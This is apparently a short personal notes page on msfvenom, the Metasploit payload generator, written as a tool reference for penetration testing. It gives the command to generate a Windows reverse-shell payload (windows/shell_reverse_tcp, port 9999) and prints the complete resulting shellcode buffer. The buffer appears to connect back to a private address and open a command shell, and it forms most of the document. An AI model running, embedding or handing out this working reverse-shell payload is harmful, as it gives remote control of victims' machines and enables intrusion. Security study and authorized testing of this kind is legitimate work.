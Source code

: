 # 💢 msfvenom
Tags: #💢 
Related to: 
See also: 
Previous: [[Exploitation Tools]], [[Social Engineering Tools]]

---
## Description

A Metasploit standalone payload generator.

## Usage Examples

### Generate 32-bit reverse shell shellcode

This is where we’ll place our shellcode to be executed by the program. The tool msfvenom is useful for generating payloads in various formats. We can use it to generate 32-bit reverse shell shellcode.

	msfvenom -p windows/shell_reverse_tcp LHOST=<your_local_ip> LPORT=9999 -f python

```
-p	// Payload to use
-f 	// Output format
```

```
buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
buf += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
buf += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
buf += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x68\x33\x32\x00\x00\x68"
buf += b"\x77\x73\x32\x5f\x54\x68\x4c\x77\x26\x07\xff\xd5\xb8"
buf += b"\x90\x01\x00\x00\x29\xc4\x54\x50\x68\x29\x80\x6b\x00"
buf += b"\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68\xea\x0f"
buf += b"\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x00\x01\x68"
buf += b"\x02\x00\x27\x0f\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5"
buf += b"\x74\x61\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec"
buf += b"\x68\xf0\xb5\xa2\x56\xff\xd5\x68\x63\x6d\x64\x00\x89"
buf += b"\xe3\x57\x57\x57\x31\xf6\x6a\x12\x59\x56\xe2\xfd\x66"
buf += b"\xc7\x44\x24\x3c\x01\x01\x8d\x44\x24\x10\xc6\x00\x44"
buf += b"\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56\x53\x56\x68"
buf += b"\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff\x30"
buf += b"\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68"
buf += b"\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0"
buf += b"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5"
```

---
## References

- [[]]